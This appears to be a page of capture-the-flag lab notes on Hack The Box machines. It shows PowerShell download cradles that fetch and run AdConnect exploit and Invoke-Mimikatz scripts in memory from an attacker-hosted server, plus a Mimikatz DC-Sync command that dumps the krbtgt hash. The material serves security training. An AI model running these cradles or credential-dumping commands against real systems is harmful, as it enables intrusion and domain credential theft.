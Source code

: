 
### Monteverde Box: Extracting the Administrator Password for Azure: {#monteverde-box-extracting-the-administrator-password-for-azure}

-   +Full Walkthrough+: <https://bloodstiller.com/walkthroughs/monteverde-box/>

In this example, we used a download cradle to execute AdConnect exploitation directly in memory:

```powershell
iex(new-object net.webclient).downloadstring('http://10.10.14.46:9000/AdConnectPOC.ps1')
```

-   {{< figure src="/ox-hugo/2024-10-14-131101_.png" >}}
-   As the exploit is run in memory we get the administrators password without writing to disk.


### Certified Box: Advanced Mimikatz Usage to perform a DC-Sync Attack: {#certified-box-advanced-mimikatz-usage-to-perform-a-dc-sync-attack}

-   +Full Walkthrough+: <https://bloodstiller.com/walkthroughs/certified-box/> Coming soon (it's still in release arena. )
-   Note this is not a spoiler as this is done post exploitation.


#### Setting Up the Environment {#setting-up-the-environment}

1.  Start a Python HTTP server to host the Mimikatz script:
    ```bash
       python3 -m http.server 9000
    ```


#### Loading Mimikatz into Memory {#loading-mimikatz-into-memory}

Using a download cradle to load [invoke-mimikatz](https://github.com/g4uss47/Invoke-Mimikatz) directly into memory:

```powershell
iex(new-object net.webclient).downloadstring('http://10.10.14.24:9000/Invoke-Mimikatz.ps1')
```

-   {{< figure src="/ox-hugo/2024-11-10-134628_.png" >}}
-   +Note+: This will hang for a little bit, so just be patient.


#### Performing DC-Sync Attack {#performing-dc-sync-attack}

-   Now that mimikatz is loaded into memory we can use it like we normally would and pass it arguments.



```powershell
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /user:krbtgt /domain:administrator.htb"'
```
